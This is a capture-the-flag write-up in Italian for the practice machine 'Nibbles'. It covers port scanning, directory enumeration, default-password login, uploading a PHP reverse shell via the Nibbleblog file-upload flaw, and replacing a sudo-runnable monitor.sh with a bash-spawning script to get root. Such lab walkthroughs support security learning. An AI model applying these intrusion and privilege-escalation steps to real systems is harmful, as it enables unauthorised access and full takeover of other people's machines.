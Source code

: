 # Nibbbles

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.75
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 22**: OpenSSH 7.2p2
* **Porta 80**: Apache 2.4.18

```text
map scan report for 10.10.10.75
Host is up (0.072s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/19%OT=22%CT=1%CU=30464%PV=Y%DS=2%DC=I%G=Y%TM=650977F
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=105%GCD=1%ISR=10C%TI=Z%II=I%TS=8)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 22 OpenSSH 7.2p2

La vulnerabilità trovata:
  * OpenSSH 2.3 < 7.7 - Username Enumeration

Questa vulnerabilità ci permette di fare username enumeration [CVE-2018-15473](https://github.com/Sait-Nuri/CVE-2018-15473).

Non mi interessa utilizzare questa vulnerabilità per il momento, quindi proseguo.

### 2) Porta 80 Apache 2.4.18

Non trovo nulla di interessante.

### 3) Directory enumeration

Ispezionando la pagina http://10.10.10.75 trovo questo:

<p align="center">
  <img src="/Immagini/Linux-Box/Nibbles/nibbles-1.png" />
</p>

Quindi vado all'indirizzo http://10.10.10.75/nibbleblog:

<p align="center">
  <img src="/Immagini/Linux-Box/Nibbles/nibbles-2.png" />
</p>

Utilizzo il comando dirb, dal quale ottengo il seguente risultato:

```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Sep 19 06:38:41 2023
URL_BASE: http://10.10.10.75/nibbleblog/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.75/nibbleblog/ ----
==> DIRECTORY: http://10.10.10.75/nibbleblog/admin/                                                                 
+ http://10.10.10.75/nibbleblog/admin.php (CODE:200|SIZE:1401)                                                      
==> DIRECTORY: http://10.10.10.75/nibbleblog/content/                                                               
+ http://10.10.10.75/nibbleblog/index.php (CODE:200|SIZE:2987)                                                      
==> DIRECTORY: http://10.10.10.75/nibbleblog/languages/                                                             
==> DIRECTORY: http://10.10.10.75/nibbleblog/plugins/                                                               
+ http://10.10.10.75/nibbleblog/README (CODE:200|SIZE:4628)                                                         
==> DIRECTORY: http://10.10.10.75/nibbleblog/themes/                                                                

---- Entering directory: http://10.10.10.75/nibbleblog/admin/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.75/nibbleblog/content/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.75/nibbleblog/languages/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.75/nibbleblog/plugins/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.75/nibbleblog/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Tue Sep 19 06:44:33 2023
DOWNLOADED: 4612 - FOUND: 3
```

Per prima cosa vad sulla pagina http://10.10.10.75/nibbleblog/README, dalla quale riesco a risalire alla versione di Nibbleblog utilizzata:

```text
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

Site: http://www.nibbleblog.com
Blog: http://blog.nibbleblog.com
Help & Support: http://forum.nibbleblog.com
Documentation: http://docs.nibbleblog.com

===== Social =====
* Twitter: http://twitter.com/nibbleblog
* Facebook: http://www.facebook.com/nibbleblog
* Google+: http://google.com/+nibbleblog

===== System Requirements =====
* PHP v5.2 or higher
* PHP module - DOM
* PHP module - SimpleXML
* PHP module - GD
* Directory â€œcontentâ€ writable by Apache/PHP

Optionals requirements

* PHP module - Mcrypt
...
```

Da una semplice ricerca scopro che esiste una vulnerabilità che posso sfruttare: [Nibbleblog 4.0.3 - Arbitrary File Upload (CVE-2015-6967)](https://github.com/dix0nym/CVE-2015-6967)

Vado sulla pagina http://10.10.10.75/nibbleblog/admin.php e provo ad entrare con username e password banali:
  * administrator, administrator
  * admin, admin
  * administrator, nibbles
  * admin, nibbles (**BOOM!!!**)

<p align="center">
  <img src="/Immagini/Linux-Box/Nibbles/nibbles-3.png" />
</p>

Dopodichè vado nella sezione Plugin > My image e carico il file php (scaricato precedentemente) modificando l'indirizzo ip e la porta al suo interno (con quella del listener che metto in ascolto sulla mia macchina):

<p align="center">
  <img src="/Immagini/Linux-Box/Nibbles/nibbles-4.png" />
</p>

Vado all'indirizzo dove è stata appena caricata l'immagine per avviare la reverse shell.

```text
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

**Ottengo così il primo flag!**

<p align="center">
  <img src="/Immagini/Linux-Box/Nibbles/nibbles-5.png" />
</p>

## Privilege Escalation

Dall'immagine precedente si può notare che è l'utente nibbler può eseguire monitor.sh pur non possedendo la password root.

Quindi modifico il file nel seguente modo:

```text
rm monitor.sh
touch monitor.sh
echo "#!/bin/sh" >> monitor.sh
echo "bash" >> monitor.sh
chmod +x monitor.sh
```

**Eseguendolo ottengo il contenuto di root.txt**

<p align="center">
  <img src="/Immagini/Linux-Box/Nibbles/nibbles-6.png" />
</p>
